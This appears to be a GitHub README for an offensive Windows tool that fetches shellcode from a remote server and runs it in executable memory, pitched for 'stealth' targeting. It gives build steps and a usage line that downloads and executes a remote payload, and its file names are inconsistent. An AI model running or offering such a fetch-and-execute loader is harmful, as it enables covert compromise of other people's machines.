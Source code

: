 # Valkyrie's Embrace

![1712128365149](image/README/1712128365149.png)

## Overview

I was curious about a new language I saw on Youtube and decided to try my hand on it and repurposed an old `C `remote shellcode loader I had, into ODIN. The I named this as fun gesture towards the Norse Mythologies Programming language. Just like the Valkyries of Norse mythology, who selectively choose the fallen warriors to escort to the afterlife, this tool enables you to target and execute shellcode on chosen systems with precision and a little bit of stealth.

The tool establishes a connection to a remote server *(You Set that up yourself and if you don't know how to do it then you shouldn't be playing around with this in the first place ;)* ), it retrieves the shellcode payload, and executes it on the local machine.

## Why Odin and not another language...?

1. Odin is a systems programming language designed for high performance, modern systems, and data-oriented programming. As a remote shellcode loader, Valkyrie's Embrace would benefit from Odin's low-level control over memory layout and management.
2. Odin has built-in support for custom memory allocators, which provides more control and flexibility compared to languages like C for a tool like this that interacts closely with memory.
3. Odin provides quality-of-life improvements over C such as a built-in slice type, tagged unions, generics, and better error handling, while still allowing low-level systems programming.
4. Odin has an engaged community and an open-source standard library, making it pleasant to work with for a passion project like this.
5. Odin is a newer language exploring interesting design choices like built-in SOA data types. Using it for this project allows you to explore and evaluate Odin's unique features and approach.

To compile Valkyrie's Embrace, you can go to these resources on installing and setting up Odin:

- Official Odin installation guide for Windows, macOS and Linux [here](https://odin-lang.org/docs/install/)
- Video tutorial on setting up Odin with SDL2 on Windows [here](https://www.youtube.com/watch?v=_PfYX4vvJh)
- Video guide on installing Odin on Linux [here](https://www.youtube.com/watch?v=5GxJiQx2UHo)

Odin's combination of low-level control, modern features, and community engagement made it an appealing choice for me to create a small project like Valkyrie's Embrace. The official docs and community video guides provide good resources to help others get up and running with Odin.

## Features

- Establishes a TCP connection to a remote server
- Retrieves shellcode payload from the server
- Allocates executable memory for the shellcode
- Executes the shellcode on the local machine
- Supports Windows operating system only.

## Prerequisites

To compile and run Valkyrie's Embrace, you need to have the following:

- Odin programming language installed on your system
- A Windows operating system (the tool uses Windows API functions)

## Usage

1. Clone the repository:

```bash
git clone https://github.com/a7t0fwa7/valkyries-embrace.git
```

2. Navigate to the project directory:

```bash
cd src
```

3. Compile the Odin code:

```bash
odin build ValkiriesEmbrace.odin
```

4. Run the compiled executable with the required arguments:

```bash
./ValkiriesEmbrace.exe <RemoteIP> <RemotePort> <Resource>
```

- `<RemoteIP>`: The IP address of the remote server hosting the shellcode.
- `<RemotePort>`: The port number on which the remote server is listening.
- `<Resource>`: The resource path on the remote server where the shellcode is located.

## Example

Suppose you have a remote server with IP address `192.168.0.10` listening on port `8080`, and the shellcode is located at the resource path `/shellcode`. To execute the shellcode, run the following command:

```bash
./main.exe 192.168.0.10 8080 shellcode
```

Valkyrie's Embrace will connect to the remote server, retrieve the shellcode, and execute it on the local machine, embracing the target system with its payload.

## Code Structure

The project has the following directory structure:

```
valkyries-embrace/
├── main.odin
└── README.md
```

- `main.odin`: The main Odin source file containing the implementation of Valkyrie's Embrace.
- `README.md`: This file, providing an overview and usage instructions for the tool.

## Disclaimer

Valkyrie's Embrace is intended for educational and research purposes only. The authors and contributors are not responsible for any misuse or damage caused by this tool. Use it at your own risk and ensure that you have proper authorization before executing shellcode on any system.

## License

This project is licensed under the [MIT License](LICENSE).

## Contributing

Contributions are welcome! If you find any issues or have suggestions for improvements, please open an issue or submit a pull request.

## Acknowledgements

- The Odin programming language community for their support and resources.
- The cybersecurity community for their continuous efforts in researching and sharing knowledge.
- The Norse mythology for inspiring the name and theme of this tool.
